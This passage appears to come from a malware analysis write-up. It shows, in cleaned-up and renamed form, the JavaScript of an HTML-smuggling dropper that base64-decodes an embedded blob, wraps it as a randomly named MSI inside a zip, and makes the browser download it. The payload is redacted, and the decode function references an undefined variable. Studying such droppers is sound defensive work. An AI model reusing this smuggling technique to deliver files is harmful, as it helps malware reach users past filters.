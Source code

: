 ```html
</script>
</body>
</html>
```

6) We see some functions generating random strings. If we clean up the code and rename some variables and functions, we get the following cleaner code:

```html
<html>
<head>
</head>
<body>
<script>
var get_content = pack("");
var zipped_content = new JSZip();
var zip_file_name = random_name_generator2(5)+random_name_generator(13)+"zip";
var msi_file_name = random_name_generator2(5)+random_name_generator2(10)+random_non_ascii_char_generator(1)+".msi";

function random_name_generator(tam) {
    var name = "";
    var list_chars = "ABCDEFGHIJLMNOPQRSTUVXZWKYabcdefghijlmnopqrstuvxzwky1234567890";
    for (var i = 0; i < tam; i++)
        name += list_chars.charAt(Math.floor(Math.random() * list_chars.length));
    return name;
}

function random_name_generator2(tam) {
    var name = "";
    var list_chars_capital = "ABCDEFGHIJLMNOPQRSTUVXZWKY";
    for (var i = 0; i < tam; i++)
        name += list_chars_capital.charAt(Math.floor(Math.random() * list_chars_capital.length));
    return name;
}

function random_non_ascii_char_generator(tam) {
    var name = "";
    var non_ascci_list = "���px;a~���M�.��";
    for (var i = 0; i < tam; i++)
        name += non_ascci_list.charAt(Math.floor(Math.random() * non_ascci_list.length));
    return name;
}

function pack(input_content) {
    input_content = "0M8R4K7oIHgxGDAZlkmbaDv_REDUCED_AAAAAAAAAAAAAAAA==";
    var base64_decoded = window.atob(KoFoqunheCjkoIQcfJjzM);
    var len = base64_decoded.length;
    var buff_array = new Uint8Array( len );
    for (var i = 0; i < len; i++) {
        buff_array[i] = base64_decoded.charCodeAt(i);
    }
    return buff_array.buffer;
}

zipped_content.file(msi_file_name,get_content,{binary:true});
zipped_content.generateAsync({ type: "Blob" ,compression: "DEFLATE"}).then(function (content) 
    {
        saveAs(content, zip_file_name );
    });
</script>
</html>
```
